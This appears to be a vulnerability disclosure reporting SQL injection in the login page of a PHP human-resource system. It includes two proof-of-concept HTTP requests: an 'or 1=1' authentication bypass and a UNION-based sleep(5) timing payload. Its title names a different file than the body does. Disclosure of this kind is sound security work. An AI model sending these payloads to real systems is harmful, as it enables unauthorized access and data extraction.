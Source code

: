 # Human Resource Integrated System has SQL Injection in login_attendance2.php

## supplier 

https://code-projects.org/human-resource-integrated-system-in-php-with-source-code/

## Vulnerability file

login.php

## Describe

The user and pass parameters in login.php are vulnerable to SQL injection due to the lack of proper sanitization and parameterization. This allows attackers to exploit the inputs using universal bypass payloads to gain unauthorized access to the application. Additionally, there are timing-based SQL injections, where attackers can leverage functions like SLEEP() to introduce intentional delays in database responses. This vulnerability enables attackers to extract sensitive information from the database and poses a significant risk to the security of the authentication system.

![image-20250823013112177](image/image-20250823013112177.png)

## POC

```
POST /login.php HTTP/1.1
Host: hris
Content-Length: 31
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

save=1&user=1&pass=1'+or+'1'='1
```

Send this request, you can bypass authentication to gain access to the system.

```
POST /login.php HTTP/1.1
Host: hris
Content-Length: 90
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

save=1&user=1&pass=1'+union+select+1,1,1,1,sleep(5)--+
```

Send this request, you can observe an additional 5 seconds time delay triggered by the time-based injection.
